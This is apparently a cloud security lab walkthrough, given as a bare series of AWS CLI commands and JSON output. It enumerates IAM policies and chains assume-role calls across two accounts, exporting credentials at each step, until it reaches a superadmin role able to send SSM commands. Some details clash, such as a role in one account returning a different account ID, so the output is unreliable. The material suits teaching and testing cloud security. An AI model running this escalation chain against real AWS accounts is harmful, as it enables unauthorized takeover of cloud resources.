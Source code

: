 aws sts get-caller-identity
```
{
    "UserId": "AIDA26CUPKHDYXQ3FL3Y3",
    "Account": "751796441543",
    "Arn": "arn:aws:iam::751796441543:user/{PLACEHOLDER_LAB_NAME}_ApplicationDeployment"
}
```

aws iam list-attached-role-policies --role-name CustomAdministratorAccess
```
{
    "AttachedPolicies": [
        {
            "PolicyName": "src_custom_iam_ro_src_dst_iam_policy",
            "PolicyArn": "arn:aws:iam::751796441543:policy/src_custom_iam_ro_src_dst_iam_policy"
        },
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}

```

aws iam get-policy-version --policy-arn arn:aws:iam::751796441543:policy/src_custom_iam_ro_src_dst_iam_policy --version-id v1
```
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:UpdateAssume*",
                        "iam:List*",
                        "iam:Get*"
                    ],
                    "Effect": "Allow",
                    "Resource": [
                        "arn:aws:iam::751796441543:role/*",
                        "arn:aws:iam::751796441543:policy/*"
                    ],
                    "Sid": "CustomIamPolicy1"
                },
                {
                    "Action": "sts:AssumeRole",
                    "Effect": "Allow",
                    "Resource": [
                        "arn:aws:iam::833905751850:role/readonly_role",
                        "arn:aws:iam::751796441543:role/*"
                    ],
                    "Sid": "CustomIamPolicy2"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2022-07-21T14:35:42Z"
    }
}

```

output=`aws sts assume-role --role-arn "arn:aws:iam::751796441543:role/CustomAdministratorAccess" --role-session-name "coucou"`
aws_access_key_id=`echo $output | jq -r '. | .Credentials.AccessKeyId'`
aws_secret_access_key=`echo $output | jq -r '. | .Credentials.SecretAccessKey'`
aws_session_token=`echo $output | jq -r '. | .Credentials.SessionToken'`

export AWS_ACCESS_KEY_ID=$aws_access_key_id
export AWS_SECRET_ACCESS_KEY=$aws_secret_access_key
export AWS_SESSION_TOKEN=$aws_session_token

aws sts get-caller-identity
```
{
    "UserId": "AROA2P7MIMDIPOKWFMNDD:coucou",
    "Account": "721513111760",
    "Arn": "arn:aws:sts::721513111760:assumed-role/CustomAdministratorAccess/coucou"
}
```

output2=`aws sts assume-role --role-arn arn:aws:iam::833905751850:role/readonly_role --role-session-name coucou2`
aws_access_key_id=`echo $output2 | jq -r '. | .Credentials.AccessKeyId'`
aws_secret_access_key=`echo $output2 | jq -r '. | .Credentials.SecretAccessKey'`
aws_session_token=`echo $output2 | jq -r '. | .Credentials.SessionToken'`

export AWS_ACCESS_KEY_ID=$aws_access_key_id
export AWS_SECRET_ACCESS_KEY=$aws_secret_access_key
export AWS_SESSION_TOKEN=$aws_session_token

aws sts get-caller-identity
```
{
    "UserId": "AROA2P7MIMDIPOKWFMNDD:coucou2",
    "Account": "833905751850",
    "Arn": "arn:aws:sts::833905751850:assumed-role/readonly_role/coucou2"
}
```

aws iam list-roles
```
        {
            "Path": "/",
            "RoleName": "superadmin_role",
            "RoleId": "AROA4EKFH64VB55QT74PE",
            "Arn": "arn:aws:iam::833905751850:role/superadmin_role",
            "CreateDate": "2022-07-21T14:35:57Z",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Sid": "",
                        "Effect": "Allow",
                        "Principal": {
                            "AWS": "arn:aws:iam::751796441543:role/moniroting_all_role"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "MaxSessionDuration": 3600
        }

```

aws iam list-attached-role-policies --role-name superadmin_role
```
{
    "AttachedPolicies": [
        {
            "PolicyName": "custom_s3_ro_iam_policy",
            "PolicyArn": "arn:aws:iam::833905751850:policy/custom_s3_ro_iam_policy"
        },
        {
            "PolicyName": "dest_custom_iam_ro_iam_policy",
            "PolicyArn": "arn:aws:iam::833905751850:policy/dest_custom_iam_ro_iam_policy"
        },
        {
            "PolicyName": "ssmSendCommand_policy",
            "PolicyArn": "arn:aws:iam::833905751850:policy/ssmSendCommand_policy"
        }
    ]
}
```

unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN

output3=`aws sts assume-role --role-arn arn:aws:iam::751796441543:role/moniroting_all_role --role-session-name coucou3`
aws_access_key_id=`echo $output3 | jq -r '. | .Credentials.AccessKeyId'`
aws_secret_access_key=`echo $output3 | jq -r '. | .Credentials.SecretAccessKey'`
aws_session_token=`echo $output3| jq -r '. | .Credentials.SessionToken'`

export AWS_ACCESS_KEY_ID=$aws_access_key_id
export AWS_SECRET_ACCESS_KEY=$aws_secret_access_key
export AWS_SESSION_TOKEN=$aws_session_token

aws sts get-caller-identity
```
{
    "UserId": "AROA26CUPKHDV57C5XE7O:coucou3",
    "Account": "751796441543",
    "Arn": "arn:aws:sts::751796441543:assumed-role/moniroting_all_role/coucou3"
}
```

output4=`aws sts assume-role --role-arn arn:aws:iam::833905751850:role/superadmin_role --role-session-name coucou4`
aws_access_key_id=`echo $output4 | jq -r '. | .Credentials.AccessKeyId'`
aws_secret_access_key=`echo $output4 | jq -r '. | .Credentials.SecretAccessKey'`
aws_session_token=`echo $output4| jq -r '. | .Credentials.SessionToken'`

export AWS_ACCESS_KEY_ID=$aws_access_key_id
export AWS_SECRET_ACCESS_KEY=$aws_secret_access_key
export AWS_SESSION_TOKEN=$aws_session_token

aws sts get-caller-identity
```
{
    "UserId": "AROA4EKFH64VB55QT74PE:coucou4",
    "Account": "833905751850",
    "Arn": "arn:aws:sts::833905751850:assumed-role/superadmin_role/coucou4"
}
```
